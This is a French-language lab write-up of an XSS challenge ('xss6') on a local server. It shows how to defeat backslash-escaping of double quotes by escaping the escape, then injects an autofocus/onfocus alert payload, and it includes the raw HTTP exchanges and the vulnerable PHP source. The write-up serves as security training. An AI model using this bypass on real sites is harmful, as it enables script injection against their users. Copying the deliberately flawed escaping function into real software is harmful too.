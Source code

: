 # xxs6

## Exploitation

Afin de protéger l'application, l'auteur indique qu'il échappe maintenant le caractère `"` :&#x20;

![](<../../../.gitbook/assets/image (248).png>)

Le caractère `"` subit effectivement un traitement, il s'agit d'un échappement par l'insertion du caractère `\` :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2100
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\"" placeholder="keyword" required>
</div>
```

![](<../../../.gitbook/assets/image (183).png>)

Le contournement qui me parait le plus évident à tester est d'insérer également un caractère `\` afin d'échapper l'échappement :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%5C%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2101
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\\"" placeholder="keyword" required>
</div>
```

Cela semble fonctionner :&#x20;

![](<../../../.gitbook/assets/image (314).png>)

Il ne me reste plus qu'à adapter ma payload basée sur l'autofocus `whatever\" onfocus=alert(1) autofocus x=\"` (attention, j'enlève également les guillemets autour du code Javascript) :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%5C%22+onfocus%3Dalert%281%29+autofocus+x%3D%5C%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2134
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\\" onfocus=alert(1) autofocus x=\\"" placeholder="keyword" required>
 </div>       
```

![](<../../../.gitbook/assets/image (41).png>)

## Analyse du code source

La fonction `xss_check()` effectue un traitement sur le caractère `"` qui se retrouve échappé par l'ajout d'un `\` devant chaque occurrence. Le mot clé est ensuite affiché en tant que valeur de l'attribut HTML `value` :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    $input = str_replace('"', '\"', $data);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
